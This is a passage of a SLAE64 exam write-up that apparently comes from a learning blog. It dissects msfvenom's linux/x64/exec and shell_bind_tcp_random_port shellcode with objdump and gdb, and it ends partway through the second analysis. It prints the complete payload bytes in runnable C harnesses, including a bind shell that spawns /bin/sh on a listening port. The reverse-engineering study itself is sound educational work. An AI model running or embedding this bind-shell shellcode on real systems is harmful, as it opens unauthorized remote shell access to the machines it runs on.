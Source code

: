 ## Shellcode `linux/x64/exec` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/exec` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/exec --list-options
Options for payload/linux/x64/exec:
=========================

       Name: Linux Execute Command
     Module: payload/linux/x64/exec
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 40
       Rank: Normal

Provided by:
    ricky

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    yes       The command string to execute

Description:
  Execute an arbitrary command
```
The payload is only 40 bytes and it requires a parameter in the `CMD` option, that's the command to execute. 

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/exec CMD="/bin/ls -l" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 50 bytes
Final size of c file: 236 bytes
unsigned char buf[] = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53"
"\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x0b\x00"
"\x00\x00\x2f\x62\x69\x6e\x2f\x6c\x73\x20\x2d\x6c\x00\x56\x57"
"\x48\x89\xe6\x0f\x05";
SLAE64> 

```
The generated payload size is 50 bytes, it increased it's size. This increase from 40 bytes is because the 10 bytes of `/bin/ls -l` string. Interesting.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_01.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53"
"\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x0b\x00"
"\x00\x00\x2f\x62\x69\x6e\x2f\x6c\x73\x20\x2d\x6c\x00\x56\x57"
"\x48\x89\xe6\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_01.c -o Payload_01
```
When it's run, it shows the files of the directory:

<img src="https://galminyana.github.io/img/A051_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the shellcode:

```asm
SLAE64> objdump -M intel -D Payload_01

**_REMOVED_**

0000000000004060 <code>:
    4060:	6a 3b                	push   0x3b
    4062:	58                   	pop    rax
    4063:	99                   	cdq    
    4064:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f6e69622f
    406b:	73 68 00 
    406e:	53                   	push   rbx
    406f:	48 89 e7             	mov    rdi,rsp
    4072:	68 2d 63 00 00       	push   0x632d
    4077:	48 89 e6             	mov    rsi,rsp
    407a:	52                   	push   rdx
    407b:	e8 0b 00 00 00       	call   408b <code+0x2b>
    4080:	2f                   	(bad)  
    4081:	62                   	(bad)  
    4082:	69 6e 2f 6c 73 20 2d 	imul   ebp,DWORD PTR [rsi+0x2f],0x2d20736c
    4089:	6c                   	ins    BYTE PTR es:[rdi],dx
    408a:	00 56 57             	add    BYTE PTR [rsi+0x57],dl
    408d:	48 89 e6             	mov    rsi,rsp
    4090:	0f 05                	syscall 
	...

**_REMOVED_**

SLAE64> 
```
Interesting that `objdump` detects some instructions as `(bad)`. Will have to check it.

### The Fun: GDB Analysis
---
After opening the file in `gdb` and set the `set disassembly-flavor intel`, a breakpoint is placed in `*&code` address. This is where the shellcode is placed and can start debugging just from there. Once the breakpoint is `set`, the `run` comand execs the code until reaching theit. Now if `disassemble` the code will show the payload code:
```asm
SLAE64> gdb ./Payload_01
GNU gdb (Debian 8.2.1-2+b3) 8.2.1

**_REMOVED_**

Reading symbols from ./Payload_01...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) break *&code
Breakpoint 1 at 0x4060
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_01 
ShellCode Lenght: 13

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	push   0x3b
   0x0000555555558062 <+2>:	pop    rax
   0x0000555555558063 <+3>:	cdq    
   0x0000555555558064 <+4>:	movabs rbx,0x68732f6e69622f          <==
   0x000055555555806e <+14>:	push   rbx
   0x000055555555806f <+15>:	mov    rdi,rsp
   0x0000555555558072 <+18>:	push   0x632d                        <==
   0x0000555555558077 <+23>:	mov    rsi,rsp
   0x000055555555807a <+26>:	push   rdx
   0x000055555555807b <+27>:	call   0x55555555808b <code+43>     
   0x0000555555558080 <+32>:	(bad)  
   0x0000555555558081 <+33>:	(bad)  
   0x0000555555558082 <+34>:	imul   ebp,DWORD PTR [rsi+0x2f],0x2d20736c
   0x0000555555558089 <+41>:	ins    BYTE PTR es:[rdi],dx
   0x000055555555808a <+42>:	add    BYTE PTR [rsi+0x57],dl
   0x000055555555808d <+45>:	mov    rsi,rsp
   0x0000555555558090 <+48>:	syscall 
   0x0000555555558092 <+50>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
In the code, can see that some hex values are stored in registers and then in the stack. Let's convert all those hex values, to get any clue and idea of what the shellcode does. For that, Python is used to convert and reverse values:
```python
>>> "68732f6e69622f".decode('hex')[::-1]
'/bin/sh'
>>> "632d".decode('hex')[::-1]
'-c'
>>> 
```
Those values from lines +4 and +18 of the code, are the command that the payload has to execute and been defined in the `CMD` option. Still have to find where the choosen command is stored. Let's review the content of memory positions for the `(bad)` instructions. Those instructions are in positions `0x0000555555558080` and `0x0000555555558081`. Let's get the contents with `gdb`:
```asm
   0x000055555555807b <+27>:	call   0x55555555808b <code+43>
   0x0000555555558080 <+32>:	(bad)                                        <==
   0x0000555555558081 <+33>:	(bad)                                        <==
   0x0000555555558082 <+34>:	imul   ebp,DWORD PTR [rsi+0x2f],0x2d20736c   
   0x0000555555558089 <+41>:	ins    BYTE PTR es:[rdi],dx
   0x000055555555808a <+42>:	add    BYTE PTR [rsi+0x57],dl
   0x000055555555808d <+45>:	mov    rsi,rsp
   0x0000555555558090 <+48>:	syscall 
   0x0000555555558092 <+50>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) x/xg 0x0000555555558080
0x555555558080 <code+32>:	0x20736c2f6e69622f
(gdb) x/2xg 0x0000555555558080
0x555555558080 <code+32>:	0x20736c2f6e69622f	0xe689485756006c2d
(gdb) 
```
Let's check what's this hex values `0x20736c2f6e69622f` and `0xe689485756006c2d` are:
```python
>>> "20736c2f6e69622f".decode('hex')[::-1]
'/bin/ls '
>>> "e689485756006c2d".decode('hex')[::-1]
'-l\x00VWH\x89\xe6'
>>> 
```
Here is the command `/bin/ls -l` stored in 10 bytes plus a NULL for the end of the string. Found it, it's stored in the `.text` section when the payload is created by `msfvenom`. The rest of the contents, `\x00VWH\x89\xe6` are the code instructions. With this, discovered why the mess in the code with the `(bad)` as it's for storing the command. 

> At this point we know that `/bin/sh -c` is stored in the stack, and the `/bin/ls -l` in the `.text` section in the 

Going further, a `syscall` instruction is made. Let's get which one is and what are it's parameters. Reviewing the code, the instructions at +0 and +2 assigns the `0x3b` value to RAX, the register to define the syscall number. This value is decimal 59, that stands for the `execve` syscall:
```asm
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	push   0x3b   <==  Syscall Number
   0x0000555555558062 <+2>:	pop    rax    <==
   0x0000555555558063 <+3>:	cdq    
**_REMOVED_**
   0x0000555555558092 <+50>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
From `execve` manpage:
```c
int  execve  (const  char  *filename,  const  char *argv [], const char *envp[]);
```
In assembly, params for this syscall are mapped to the following registers:
- RDI for `const  char  *filename`. This has to be the pointer to the `/bin/sh` command that's stored in the stack.
- RSI for `const  char *argv []`. The pointer to the address of the parameters for the command, in this case parameters are `/bin/sh` itself, `-c` and `/bin/ls -l".
- RDX for `const char *envp[]`. This value will be NULL (`0x0000000000000000`).

This is done in the following line codes:
```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558063 <+3>:	cdq                 <== RDX <- 0x00
   0x0000555555558064 <+4>:	movabs rbx,0x68732f6e69622f
   0x000055555555806e <+14>:	push   rbx          <== Stores /bin/sh
   0x000055555555806f <+15>:	mov    rdi,rsp      <== RSP has the pointer to /bin/sh, puts it in RDI
   0x0000555555558072 <+18>:	push   0x632d
   0x0000555555558077 <+23>:	mov    rsi,rsp      <== Second parameter
**_REMOVED_**
End of assembler dump.
(gdb) 
```
At this point just something not so clear, the second parameter. Let's think about the `call` instruction on +27. How does `call` work:

1. Stores de Address of next instruction in the stack
2. Increments RSP
3. Jumps to the address

This means that once the instruction at +27 (`call 0x55555555808b <code+43>`) executes, the address of the parameters (`/bin/ls -l`) for the `execve` syscall are stored in the Stack and pointed by RSP. Hence why the instruction at +43 (`mov rsi,rsp`) is just before the `syscall`, to place the value of the adress containing the adress for the parameters:
```asm
(gdb) disassemble
**_REMOVED_**
0x000055555555807a <+26>:	push   rdx
0x000055555555807b <+27>:	call   0x55555555808b <code+43>     <== Pushes in stack the address of second parameter
0x0000555555558080 <+32>:	(bad)  
0x0000555555558081 <+33>:	(bad)  
0x0000555555558082 <+34>:	imul   ebp,DWORD PTR [rsi+0x2f],0x2d20736c
0x0000555555558089 <+41>:	ins    BYTE PTR es:[rdi],dx
0x000055555555808a <+42>:	add    BYTE PTR [rsi+0x57],dl
0x000055555555808d <+45>:	mov    rsi,rsp                      <== RSI <- Address of address containing the parameter string
0x0000555555558090 <+48>:	syscall 
**_REMOVED_^^
(gdb)
```
The call jumps to +43 (`0x55555555808b`), and there, the code does "something" to continue and finally end at +45 to execute the `mov rsi, rsp` to definitelly place the second parameter into RSI for the syscall. Here `gdb` probably is not properly disassembling, because the `call` goes to +43 while at +42 there is an `add`. 

One step more, run the code step by step and see what we can find out. Will do the following steps to get the info about register status during the execution and see if it's values are the right ones and match with the values of them just before `syscall`: 

1. Get the original value of **RSP** when the shellcode begins, and take well note of it: **`0x7fffffffe758`**
```asm
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	push   0x3b
**_REMOVED_** 
   0x0000555555558090 <+48>:	syscall 
   0x0000555555558092 <+50>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) info registers rsp
rsp            0x7fffffffe758      0x7fffffffe758
(gdb) 
```
2. `stepi`'ing instructions at +0 and +2, **RAX** gets the syscall number as it's value, **`0x3b`**. This value has to be the same just before the syscall. Also at +3 **RDX** gets value **0x00** by the `cdq`.
```asm
(gdb) stepi
0x0000555555558062 in code ()
(gdb) stepi
0x0000555555558063 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	push   0x3b
   0x0000555555558062 <+2>:	pop    rax
=> 0x0000555555558063 <+3>:	cdq    
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax
rax            0x3b                59
(gdb) 
```
3. `stepi`'ing +4 and +14 pushes the `"/bin/sh",0x00` string in the stack. Here the original **RSP** would decrease 8 positions it's value to **`0x7fffffffe750`** (the 8 bytes pushed in the string). 
```asm
(gdb) stepi
0x000055555555806f in code ()
(gdb) disassemble 
**_REMOVED_**
   0x0000555555558064 <+4>:	movabs rbx,0x68732f6e69622f
   0x000055555555806e <+14>:	push   rbx                  <== "/bin/sh",0x00 o the stack
=> 0x000055555555806f <+15>:	mov    rdi,rsp              
**_REMOVED__*
End of assembler dump.
(gdb) info registers rsp
rsp            0x7fffffffe750      0x7fffffffe750
(gdb) x/1xg $rsp
0x7fffffffe750:	0x0068732f6e69622f
(gdb) x/s $rsp
0x7fffffffe750:	"/bin/sh"
(gdb) 
```` 
4. **RDI** register gets the address **`0x7fffffffe750`**, that is the memory position storing the `/bin/sh` command string first parameter of `execve`). The **RDI** value has to be **`0x7fffffffe750`**. _The value of RDI should not change anymore_. Everything looks fine by now:
```asm
(gdb) disassemble 
**_REMOVED_**
   0x000055555555806e <+14>:	push   rbx
   0x000055555555806f <+15>:	mov    rdi,rsp
=> 0x0000555555558072 <+18>:	push   0x632d
**_REMOVED_**
End of assembler dump.
(gdb) info registers rsp
rsp            0x7fffffffe750      0x7fffffffe750
(gdb) info registers rdi
rdi            0x7fffffffe750      140737488349008
(gdb) x/s $rsp
0x7fffffffe750:	"/bin/sh"
(gdb) 
```
5. Next, the `-c` string as the command parameter has to be also stacked. **RSP** updates to point now to **`0x7fffffffe748`**, and the top of the stack contains the string `"-c"`:
```asm
(gdb) stepi
0x0000555555558077 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558072 <+18>:	push   0x632d
=> 0x0000555555558077 <+23>:	mov    rsi,rsp
**_REMOVED_**
End of assembler dump.
(gdb) info registers rsp 
rsp            0x7fffffffe748      0x7fffffffe748
(gdb) x/s $rsp
0x7fffffffe748:	"-c"
(gdb) 
```
6. Next instruction, saves the value of **RSP** into **RSI**. Now **RSI** has te value **`0x7fffffffe748`**, pointing to the address of the first parameter for the command:
```asm
(gdb) stepi
0x000055555555807a in code ()
(gdb) disassemble 
**_REMOVED_**
   0x0000555555558077 <+23>:	mov    rsi,rsp
=> 0x000055555555807a <+26>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) info registers rsp rsi
rsp            0x7fffffffe748      0x7fffffffe748
rsi            0x7fffffffe748      140737488349000
(gdb) x/s $rsi
0x7fffffffe748:	"-c"
(gdb) 
```
7. **RDX** that contains a NULL is also `push`'ed, updating **RSP** value to **`0x7fffffffe740`**
```asm
(gdb) stepi
0x000055555555807b in code ()
(gdb) disassemble 
**_REMOVED_**
   0x000055555555807a <+26>:	push   rdx
=> 0x000055555555807b <+27>:	call   0x55555555808b <code+43>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rsp
rsp            0x7fffffffe740      0x7fffffffe740
(gdb) x/xg $rsp
0x7fffffffe740:	0x0000000000000000
(gdb) 
```
8. Now go to the `call` instruction. After executes, **`0x0000555555558080`** should be stacked and **RSP** updated -8 positions, to **`0x7fffffffe738`**:
```asm
(gdb) stepi                                         <= stepi
0x000055555555808b in code ()                       <== Something strange done by gdb :-/
                                                     == But it's the address pointed by CALL
(gdb) info registers rsp 
rsp            0x7fffffffe738      0x7fffffffe738   <== RSP Updated
(gdb) x/x $rsp
0x7fffffffe738:	0x0000555555558080                  <== CALL saves the next instruction address in the stack. 
                                                     == For us is the address pointing to /bin/ls -l
(gdb) 
```
  This address **`0x0000555555558080`** stacked, is the string defined as the program to execute for the payload, that in the `execve` call would be the 3th parameter. Let's check if this address really points to the `"/bin/ls -l"` string:
  ```asm
  (gdb) x/s 0x0000555555558080
  0x555555558080 <code+32>:	"/bin/ls -l"
  (gdb)
  ```
9. Now we define a `hook-stop` to follow up the values of **RSP** and **RSI** as this last one is the register that still does not have the right value before the syscall. Now have to `stepi` blindly as `gdb` does not show the instruction when disassembles:

```asm
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>info registers rsi rsp
>x/xg $rsp
>end
(gdb) stepi                                           <== Another stepi
rsi            0x7fffffffe748      140737488349000    <== Still points to '-c'
rsp            0x7fffffffe730      0x7fffffffe730     <== 64 bits been pushed in the stack updating RSP
0x7fffffffe730:	0x00007fffffffe748
0x000055555555808c in code ()
(gdb) x/s $rsi
0x7fffffffe748:	"-c"                                  <== $RDI contais '-c'
(gdb) stepi                                           <== Another stepi
rsi            0x7fffffffe748      140737488349000
rsp            0x7fffffffe728      0x7fffffffe728     <== 64 bits more been pushed in the stack updating RSP
0x7fffffffe728:	0x00007fffffffe750
0x000055555555808d in code ()
(gdb) 
```
  At this point `gdb` recovered and next instruction to execute will be +45 `mov rsi, rsp`. 
  ```asm
  (gdb) disassemble 
  Dump of assembler code for function code:
     0x0000555555558060 <+0>:	push   0x3b
     0x0000555555558062 <+2>:	pop    rax
     0x0000555555558063 <+3>:	cdq    
     0x0000555555558064 <+4>:	movabs rbx,0x68732f6e69622f
     0x000055555555806e <+14>:	push   rbx
     0x000055555555806f <+15>:	mov    rdi,rsp
     0x0000555555558072 <+18>:	push   0x632d
     0x0000555555558077 <+23>:	mov    rsi,rsp
     0x000055555555807a <+26>:	push   rdx
     0x000055555555807b <+27>:	call   0x55555555808b <code+43>
     0x0000555555558080 <+32>:	(bad)  
     0x0000555555558081 <+33>:	(bad)  
     0x0000555555558082 <+34>:	imul   ebp,DWORD PTR [rsi+0x2f],0x2d20736c
     0x0000555555558089 <+41>:	ins    BYTE PTR es:[rdi],dx
     0x000055555555808a <+42>:	add    BYTE PTR [rsi+0x57],dl
  => 0x000055555555808d <+45>:	mov    rsi,rsp
     0x0000555555558090 <+48>:	syscall 
     0x0000555555558092 <+50>:	add    BYTE PTR [rax],al
  End of assembler dump.
  (gdb) 
  ```
##### Let's do a break in the debugging...
...to check every register and stack contents, for everything looks as it should. 
As had to blindly `stepi` by two instructions, need to ensure that values for the registers are the ones that should be for the analysis being done until now. All are correct:

- **RAX** : `0x3b`

```asm
(gdb) info registers rax 
rax            0x3b                59
(gdb) 
```

- **RDI** : `0x7fffffffe750`  ==> Address of /bin/sh

```asm
(gdb) info registers rax 
rax            0x3b                59
(gdb) info registers rdi
rdi            0x7fffffffe750      140737488349008
(gdb) x/s $rdi
0x7fffffffe750:	"/bin/sh"
(gdb) 
```

- **RSI** : `0x7fffffffe748`  ==> Address of '-c' in the stack

```asm
(gdb) info registers rsi
rsi            0x7fffffffe748      140737488349000
(gdb) x/s $rsi
0x7fffffffe748:	"-c"
(gdb) 
```

- **RDX** : 0x00

```asm
(gdb) info registers rdx
rdx            0x0                 0
(gdb) 
```
##### End break
All looks good, the part where had to `stepi` blindly, didnt change the original values of the registers. But also, in that blind code, some values been pushed in the stack in the right order required by the stack technique for `execve` syscall:
- **`0x00007fffffffe750`**  that's the memory address for `/bin/sh` :
```asm
(gdb) x/x $rsp
0x7fffffffe728:	0x00007fffffffe750
(gdb) x/s 0x00007fffffffe750
0x7fffffffe750:	"/bin/sh"
(gdb) 
```
- **`0x00007fffffffe748`** that's the memory address for  `-c` :
```asm
(gdb) x/xg 0x7fffffffe730
0x7fffffffe730:	0x00007fffffffe748
(gdb) x/s 0x00007fffffffe748
0x7fffffffe748:	"-c"
(gdb) 
```
By the operations done in the blind code and the actual values of the registers, what has to be done is:
```asm
push rsi    <== the @ for "-c"
push rdi    <== the @ for //bin/sh"
```

9. Let's `stepi`, this is where definitelly **RSI** get's the pointer to the second parameter for the `execve` syscall.
```asm
(gdb) stepi
0x0000555555558090 in code ()
(gdb) disassemble 
**_REMOVED__**
   0x000055555555808d <+45>:	mov    rsi,rsp
=> 0x0000555555558090 <+48>:	syscall 
   0x0000555555558092 <+50>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) info registers rsi rsp
rsi            0x7fffffffe728      140737488348968        <== Same value as RSP
rsp            0x7fffffffe728      0x7fffffffe728
(gdb) 
```
Let's review the status of the stack:
```markdown
  Stack Address      Value pointing a sting    String pointed 
|------------------|------------------------|------------------|
|  0x7fffffffe728  |   0x00007fffffffe750   | "/bin/sh"        |
|  0x7fffffffe730  |   0x00007fffffffe748   | "-c"             |
|  0x7fffffffe738  |   0x0000555555558080   | "/bin/ls -l"     |
|  0x7fffffffe740  |   0x0000000000000000   | n/a              |
|------------------------------------------ -------------------|
```

At this point, the **`const  char *argv []`** is referenced by **RSI** that got the value of **RSP** (`0x7fffffffe728`). From there, the rest of the required params are also in order in the stack. With everything looking in order, can go into the syscall, that will finally execute the `/bin/ls` comand:

```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555808d <+45>:	mov    rsi,rsp
=> 0x0000555555558090 <+48>:	syscall 
   0x0000555555558092 <+50>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) stepi
process 1123 is executing new program: /usr/bin/dash

[1]+  Stopped                gdb ./Payload_01
SLAE64> 
```
Everything worked as expected!

### Thoughts
---
The following handicaps been found:

- `gdb` not showing properly those blind instructions. Making it a bit more complicated to debug having to guess which instructions should been executed. This been resolved per the results on the stack and guessing which values should be stacked.
- the `call` technique used, combined with the parameters for the payload stored in the code in the `.text` section had to be understood. Per how this is done, some shellcodes should have been added because the strings that `gdb` probably interprets wrongly

The payload uses a mix of Stack and a new Technique using the `call` that results in a very interesting shellcode to review.

#### `CALL` Trick Analysis. What about the _gdb_ issue
If we check again the `objdump` output for the program:
```asm
SLAE64> objdump -M intel -D Payload_01
**_REMOVED_**
0000000000004060 <code>:
    4060:	6a 3b                	push   0x3b
    4062:	58                   	pop    rax
    4063:	99                   	cdq    
    4064:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f6e69622f
    406b:	73 68 00 
    406e:	53                   	push   rbx
    406f:	48 89 e7             	mov    rdi,rsp
    4072:	68 2d 63 00 00       	push   0x632d
    4077:	48 89 e6             	mov    rsi,rsp
    407a:	52                   	push   rdx
    407b:	e8 0b 00 00 00       	call   408b <code+0x2b>
    4080:	2f                   	(bad)  
    4081:	62                   	(bad)  
    4082:	69 6e 2f 6c 73 20 2d 	imul   ebp,DWORD PTR [rsi+0x2f],0x2d20736c
    4089:	6c                   	ins    BYTE PTR es:[rdi],dx
    408a:	00 56 57             	add    BYTE PTR [rsi+0x57],dl
    408d:	48 89 e6             	mov    rsi,rsp
    4090:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
The `call` does replace **RIP** value to jump to the instruction at `0x408b`. Reviewing this opcodes:

- Opcode 0x56: Stands for `push rsi`
- Opcode 0x57: Stands for `push rdi`

Notice that if we take the shellcode from the `0x4080` to `0x408a` adresses and convert it to a string, the `"/bin/ls -l",0x00` is stored on there:
```python
>>> "2f62696e2f6c73202d6c00".decode('hex')
'/bin/ls -l\x00'
>>> 
```
Results in the string we defined as the comand to execute in the payload. Now everything makes sense :-)

This shows that `msfvenom` when constructs the payload, has to take care to make the `call` function to jump to the first instruction after the length of the command string.

This **`call`** technique used to store the `CMD` parameter during the payload generation, is interesting:
- It allows to have any string stored in the `.text` section
- Does not matter the size of the string. Does not need to be a multiple of 8, and add extra chars to it (avoids the use of strings like `/bin**//**ls` adding a extra "/" to make it multiple of 8).



### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_01.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_01.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/exec` shellcode.
- [Shellcode_01.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_01.txt) : The rax shellcode in hex into a text file.


## Shellcode `linux/x64/shell_bind_tcp_random_port` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_bind_tcp_random_port` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_bind_tcp_random_port --list-options
Options for payload/linux/x64/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x64/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
```

The payload is only 78 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `RHOST`: The target address

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger.

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/shell_bind_tcp_random_port -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 57 bytes
Final size of c file: 264 bytes
unsigned char buf[] = 
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_02.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_02.c -o Payload_02
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A052_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_02
**_REMOVED_**
0000000000004060 <code>:
    4060:	48 31 f6             	xor    rsi,rsi
    4063:	48 f7 e6             	mul    rsi
    4066:	ff c6                	inc    esi
    4068:	6a 02                	push   0x2
    406a:	5f                   	pop    rdi
    406b:	b0 29                	mov    al,0x29
    406d:	0f 05                	syscall 
    406f:	52                   	push   rdx
    4070:	5e                   	pop    rsi
    4071:	50                   	push   rax
    4072:	5f                   	pop    rdi
    4073:	b0 32                	mov    al,0x32
    4075:	0f 05                	syscall 
    4077:	b0 2b                	mov    al,0x2b
    4079:	0f 05                	syscall 
    407b:	57                   	push   rdi
    407c:	5e                   	pop    rsi
    407d:	48 97                	xchg   rdi,rax
    407f:	ff ce                	dec    esi
    4081:	b0 21                	mov    al,0x21
    4083:	0f 05                	syscall 
    4085:	75 f8                	jne    407f <code+0x1f>
    4087:	52                   	push   rdx
    4088:	48 bf 2f 2f 62 69 6e 	movabs rdi,0x68732f6e69622f2f
    408f:	2f 73 68 
    4092:	57                   	push   rdi
    4093:	54                   	push   rsp
    4094:	5f                   	pop    rdi
    4095:	b0 3b                	mov    al,0x3b
    4097:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
Per the disassembled code, a total of 5 syscalls been used. Let's see which ones are for the values of RAX before `syscall` instruction:
- `sys_socket` : Value 0x29
- `sys_listen` : Value 0x32
- `sys_accept` : Value 0x2b
- `sys_dup2`   : Value 0x21
- `sys_execve` : Value 0x3b

### The Fun: GDB Analysis
---
As how the shellcode is disasembled, the code can be divided in sections. This sections are defined by the different syscalls. To simplify the analysis, we going to debug section by section.

Let's load the exec file into `gdb`, setup the environment, and place a breakpoint in the code section with `b *&code`:

```asm
